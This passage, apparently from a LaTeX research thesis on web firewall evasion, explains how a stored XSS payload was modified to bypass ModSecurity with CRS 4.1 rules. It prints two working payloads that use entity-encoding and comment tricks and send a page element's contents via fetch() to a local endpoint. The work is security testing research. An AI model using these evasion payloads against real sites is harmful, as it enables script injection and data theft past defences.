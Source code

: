 successfully evaded \acrshort{crs} 4.1 rule with id \verb|941180|.
Finally one of the forward-slashes \verb|/| in the url-string given to the JavaScript function \verb|fetch()| was escaped by prepending it with a back-slash \verb|\|.
Escaping any normal character with a back-slash \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

After injecting this payload into the \acrshort{html} document during validation, it turned out that the resulting \acrshort{html} code was split according to the whitespaces given in the JavaScript statements. A similar case to what was observed in Section~\ref{sec:funconstrconbypass}.
Whitespaces contained in the JavaScript statements of the bypassing but invalid payload were substituted by comments to create the payload:

\begin{lstlisting}[style=basicStyle, caption=stored XSS bypass, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var/**/secret/**/=/**/document.getElementsByName('name')[0]&^\#^46innerHTML;var/**/data/**/=/**/{body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

When sent in a request towards the web application, this payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and was successfully validated on the target.


